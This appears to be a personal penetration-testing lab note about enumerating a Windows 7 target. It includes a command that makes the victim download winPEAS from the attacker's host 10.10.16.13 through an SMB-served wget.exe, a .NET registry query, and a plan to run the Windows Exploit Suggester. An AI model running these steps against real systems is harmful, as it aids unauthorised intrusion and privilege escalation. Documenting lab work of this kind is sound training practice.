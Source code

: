 ![[Pasted image 20240717150328.png]]

***
**SYTEMINFO**

![[Pasted image 20240717150440.png]]

Microsoft Windows 7 Enterprise
***

**WINPEAS**

I copied winpeas over the `/usr/share/windows-binaries` and served using python
![[Pasted image 20240717154504.png]]

Remember, we are still serving this folder over smb
Now I will execute the `wget.exe` file in order to grab the winpeas onto the window machine

```
\\10.10.16.13\a\wget.exe http://10.10.16.13:8000/winPEASany.exe
```
![[Pasted image 20240717154721.png]]

![[Pasted image 20240717154734.png]]

After attempting to run winpeas, we learn that it can only run on certain versions of .NET
https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe
![[Pasted image 20240717154916.png]]


Search Reg Key for Version - Winpeas wont run here :(
```
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP"
```
![[Pasted image 20240717155135.png]]



***
**WES.PY**

Windows Exploit Suggester - Next Generation
https://github.com/bitsadmin/wesng?tab=readme-ov-file


**MITRE**
#TTP 
`T1082: System Information Discovery`


Run `sysinfo` on the windows victim and output to a file on kali and run file as argument in `wes.py`

```
 python3 wes.py systeminfo.txt
```
